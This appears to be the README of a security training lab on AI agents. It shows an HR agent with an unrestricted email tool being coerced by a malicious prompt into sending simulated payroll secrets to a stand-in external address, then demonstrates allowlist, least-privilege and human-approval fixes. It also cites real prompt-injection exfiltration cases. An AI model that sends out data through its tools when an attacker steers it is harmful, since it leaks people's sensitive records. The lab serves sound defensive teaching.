

# Exfiltration via Tools (AML.T0086)

**MITRE ATLAS:** [AML.T0086 — Exfiltration via AI Agent Tool Invocation](https://atlas.mitre.org/techniques/AML.T0086)

## Concept

AI agents often get outbound tools — email, webhooks, CRM updates, file uploads —
so they can act for users. **Exfiltration via AI Agent Tool Invocation** is when
an adversary steers those same tools to move sensitive data to an
attacker-controlled destination.

The traffic can look legitimate: the agent is using an authorized channel. The
failure is that the application does not constrain *where* data may go or *what*
may be placed in the payload.

This lab specializes [AML.T0053](../unbounded_tool_misuse/) into a confidentiality
impact. An HR assistant that should answer payroll questions also has
`send_email`, which loads real payroll fields for a chosen employee and delivers
them to whatever recipient the model supplies.

## Threat Model

- **Attacker:** can send prompts to an agent that already has read + outbound tools.
- **Agent:** always exposes both `lookup_employee` and `send_email`.
- **Application:** trusts model-chosen recipients; `send_email` attaches real
  payroll secrets for `employee_email` with no destination policy.
- **Impact:** Mallory's salary, SSN last-4, and direct-deposit token are written
  into a simulated outbox message addressed to `exfil-dropbox@outside.example`.

No real email is sent. Outbound mail is recorded only in a local mock outbox file.

## Vulnerable Mechanic

[`agent.py`](agent.py) registers both tools for every request:

```python
return chat_with_tools(
    messages=messages,
    tools=[LOOKUP_EMPLOYEE_TOOL, SEND_EMAIL_TOOL],
    tool_handlers={
        "lookup_employee": handle_lookup,
        "send_email": handle_send,
    },
    settings=settings,
)
```

The email handler accepts any `recipient` + `employee_email` pair. The
application itself loads the payroll record and puts secrets in the body — so
the model does not need to copy values reliably. There is no domain allowlist,
sensitive-content check, or human approval step.

## Local Walkthrough

### Prerequisites

```bash
pip install -r requirements.txt
ollama pull llama3.2
ollama serve   # if not already running
```

Run commands from the repository root. Each run resets
`fixtures/directory.json` from `fixtures/directory_seed.json` and clears
`fixtures/outbox.json`.

### Step 1 — Benign lookup

```bash
python exfiltration_via_tools/agent.py \
  --file fixtures/benign_prompt.txt
```

**Expected:** the agent calls `lookup_employee` and reports Devon's team/role.
The simulated outbox stays empty (`"messages": []`).

### Step 2 — Coerce outbound exfiltration

```bash
python exfiltration_via_tools/agent.py \
  --file fixtures/malicious_prompt.txt
```

**Expected:** the terminal prints
`[tool] SENT email recipient='exfil-dropbox@outside.example' ...`.
The outbox body should include Mallory's real values from the seed directory:

```text
salary_usd=92000
ssn_last4=1199
direct_deposit_token=ddtok_mallory_atlas_c4e2
```

Exact wording of the final answer may vary by model. The important signal is the
tool side effect in the outbox. If the model only role-plays an email in chat and
the outbox stays empty, re-run; small local models sometimes skip the tool call.

### Step 3 — Least privilege

```bash
python exfiltration_via_tools/secure_agent.py \
  --mode least_privilege \
  --file fixtures/malicious_prompt.txt
```

**Expected:** only `lookup_employee` is exposed. The model may still *talk about*
emailing, but no handler exists, so the outbox stays empty.

### Step 4 — Destination + content policy

```bash
python exfiltration_via_tools/secure_agent.py \
  --mode destination_allowlist \
  --file fixtures/malicious_prompt.txt
```

**Expected:** external recipients are blocked (`BLOCKED_DESTINATION`), and even
internal mail that embeds payroll tokens/SSN markers is blocked
(`BLOCKED_SENSITIVE_CONTENT`). The outbox stays empty.

### Step 5 — Human approval

```bash
python exfiltration_via_tools/secure_agent.py \
  --mode human_approval \
  --file fixtures/malicious_prompt.txt
```

**Expected:** the outbound attempt is blocked pending approval. The model may
incorrectly claim success; trust the audit log and outbox snapshot.

To simulate an approved operator action:

```bash
python exfiltration_via_tools/secure_agent.py \
  --mode human_approval \
  --approve \
  --file fixtures/malicious_prompt.txt
```

That approved path still allows outbound mail when an operator explicitly opts
in. Production systems should combine approval with destination and content
policy.

## Control Placement



- `least_privilege` removes the outbound capability for read-only workflows.
- `destination_allowlist` keeps the tool but constrains recipients and blocks
  sensitive payroll content in the body.
- `human_approval` treats outbound sends as proposals, not automatic actions.

## Code Map

- [`agent.py`](agent.py) — over-permissioned vulnerable agent with unbounded email.
- [`secure_agent.py`](secure_agent.py) — three remediation modes.
- [`fixtures/directory_seed.json`](fixtures/directory_seed.json) — reset state.
- [`fixtures/benign_prompt.txt`](fixtures/benign_prompt.txt) — normal lookup.
- [`fixtures/malicious_prompt.txt`](fixtures/malicious_prompt.txt) — coerced exfil.

## Comparison with Adjacent Labs

**Exfiltration vs. unbounded tool misuse:** Lab 8 escalates privilege inside the
directory. This lab keeps the tool-invocation surface but aims at
**confidentiality**: moving sensitive fields to an outside recipient.

**Exfiltration vs. data destruction:** Lab 9 removes records in place. This lab
copies sensitive data *out* while leaving the source intact.

**Exfiltration vs. delay execution:** Lab 7 shows a delayed instruction that
later uses email. This lab focuses on the exfil impact itself — read sensitive
data, then send it — without needing a multi-turn trust reset.

**Exfiltration vs. prompt injection:** injection is often *how* the attacker
steers the model. AML.T0086 is *what* happens when a connected outbound tool
actually delivers attacker-chosen content. This lab starts from a direct
coercive prompt so the outbound tool boundary stays in focus.

## Discussion Questions

1. Why can network monitoring miss this attack if the email API is a legitimate
   corporate integration?
2. Which workflows truly need `send_email` in the same agent that can read SSN
   or payment tokens?
3. Should destination allowlists alone be enough, or must body content also be
   inspected?
4. How would you detect unusual recipient domains or sensitive markers in tool
   audit logs?

## Remediation Summary

Give agents the minimum tools needed for the task, allowlist outbound
destinations in code, block sensitive content in tool payloads, require human
approval for high-impact sends, keep authorization in application code rather
than only in the system prompt, and monitor outbound tool invocations
independently of model text output.

## Real-World References

These are mostly public research disclosures and ATLAS-aligned writeups, not
confirmed criminal breaches:

- [Exfiltration via AI Agent Tool Invocation (AML.T0086)](https://www.startupdefense.io/mitre-atlas-techniques/aml-t0086-exfiltration-via-ai-agent-tool-invocation) — technique overview for encoding sensitive data into legitimate tool parameters.
- [Microsoft Copilot: From Prompt Injection to Exfiltration](https://embracethered.com/blog/posts/2024/m365-copilot-prompt-injection-tool-invocation-and-data-exfil-using-ascii-smuggling/) — Embrace the Red demonstrated automatic tool invocation and data exfil against M365 Copilot.
- [ShareLeak: Taking the Wheel of Microsoft’s Copilot Studio (CVE-2026-21520)](https://www.capsulesecurity.io/blog-post/shareleak-taking-the-wheel-of-microsofts-copilot-studio-cve-2026-21520) — over-connected agent tools used to move data outbound after form-based prompt injection.
- [MITRE ATLAS — AI Agent Tool Invocation (AML.T0053)](https://atlas.mitre.org/techniques/AML.T0053) — parent technique for abusing tools an agent already has.
